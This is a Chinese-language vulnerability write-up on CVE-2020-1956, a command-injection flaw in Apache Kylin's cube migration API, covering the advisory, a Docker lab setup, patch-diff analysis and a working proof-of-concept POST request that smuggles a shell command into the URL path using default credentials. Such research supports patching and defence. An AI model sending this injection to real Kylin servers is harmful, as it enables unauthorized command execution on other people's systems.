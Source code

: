 # （CVE-2020-1956）Apache Kylin 远程命令执行漏洞

## 0x01 漏洞通告

有点忙最近，前两天刚看的一个洞，这玩意应该在互联网甲方内网比较多吧，地址，从通告上来看是一个命令注入。

```
Versions Affected:
Kylin 2.3.0 to 2.3.2
Kylin 2.4.0 to 2.4.1
Kylin 2.5.0 to 2.5.2
Kylin 2.6.0 to 2.6.5
Kylin 3.0.0-alpha, Kylin 3.0.0-alpha2, Kylin 3.0.0-beta, Kylin 3.0.0, Kylin
3.0.1

Description:
Kylin has some restful apis which will concatenate os command with the user
input string, a user is likely to be able to execute any os command without
any protection or validation.

Mitigation:
Users should upgrade to 3.0.2 or 2.6.6 or set
kylin.tool.auto-migrate-cube.enabled to false to disable command execution.

Credit:
This issue was discovered by ﻿Johannes Dahse.

References:
https://kylin.apache.org/docs/security.html

-- 

---------------------

Best regards,

Ni Chunen / George
```

## 0x02 环境搭建

通过docker拉取镜像：

```shell
docker pull apachekylin/apache-kylin-standalone:3.0.1
```

启动命令，这里建议内存尽可能大，8G保底，不然可能有些服务器起不来。

```shell
docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

等服务起来之后就可以访问页面：http://127.0.0.1:7070/kylin/，用户名密码：ADMIN/KYLIN

在http://127.0.0.1:7070/kylin/cubes/edit/kylin_sales_cube增加下列三个值

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=/home/admin/apache-kylin-3.0.1-bin-hbase1x
kylin.tool.auto-migrate-cube.dest-config=/tmp/kylin.properties
```

![image](images/img1.png)

## 0x03 漏洞分析

在两条commit记录

[KYLIN-4426 Refine CliCommandExecutor](https://github.com/apache/kylin/commit/9cc3793ab2f2f0053c467a9b3f38cb7791cd436a "KYLIN-4426 Refine CliCommandExecutor")

[KYLIN-4426 CliCommandExecutor](https://github.com/apache/kylin/commit/335d61b62517006d7e7b55638bb6fd305dffbea1?diff=split "KYLIN-4426 CliCommandExecutor")

可以看到动刀子的位置，应该就是漏洞点的命令执行了，**CubeService** 应该就是命令执行的地方了，然后在 **CliCommandExecutor.checkParameterWhiteList** 做了一些处理。

![image](images/img2.png)

![image](images/img3.png)

所以根据[CubeController](https://github.com/apache/kylin/blob/master/server-base/src/main/java/org/apache/kylin/rest/controller/CubeController.java "CubeController")，就能找到对应路由了

![image](images/img4.png)

当然在命令执行的地方触发之前，有几个值判断，因此需要加上这几个东西。

![image](images/img5.png)

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=/home/admin/apache-kylin-3.0.1-bin-hbase1x
kylin.tool.auto-migrate-cube.dest-config=/tmp/kylin.properties
```

## 0x04 漏洞验证

由于触发点在url的位置，url的地方不能够<、>、|等所以命令执行有点受限。

```html
POST /kylin/api/cubes/kylin_sales_cube/aaa&touch%20l1nk31&/migrate HTTP/1.1
Host: 127.0.0.1:7070
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cache-Control: no-cache
Pragma: no-cache
Authorization: Basic QURNSU46S1lMSU4=
Connection: close
Referer: http://127.0.0.1:7070/kylin/admin
Cookie: project=null; JSESSIONID=2B1DC2A8566558EFF0E6BD91E5BD630E; _ga=GA1.1.636880978.1585905453; rdt_uuid=22a7eaa3-24d1-441a-b4fd-2f87dfe0197f; _fbp=fb.3.1585905456831.913087212
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

project=aaa
```

![image](images/img6.png)
